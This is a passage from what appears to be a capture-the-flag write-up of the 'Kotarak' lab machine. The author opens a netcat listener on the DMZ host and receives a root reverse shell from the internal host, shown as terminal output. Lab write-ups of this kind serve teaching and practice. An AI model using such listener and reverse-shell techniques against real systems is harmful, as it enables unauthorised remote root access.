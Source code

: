 Then, let's open a listener on DMZ.

```bash
atanas@kotarak-dmz:/$ nc -nlvp 9000
nc -nlvp 9000
Listening on [0.0.0.0] (family 0, port 9000)
Connection from [10.0.3.133] port 9000 [tcp/*] accepted (family 2, sport 56832)
bash: cannot set terminal process group (1240): Inappropriate ioctl for device
bash: no job control in this shell
root@kotarak-int:~# id
uid=0(root) gid=0(root) groups=0(root)
```

I got a `root` shell!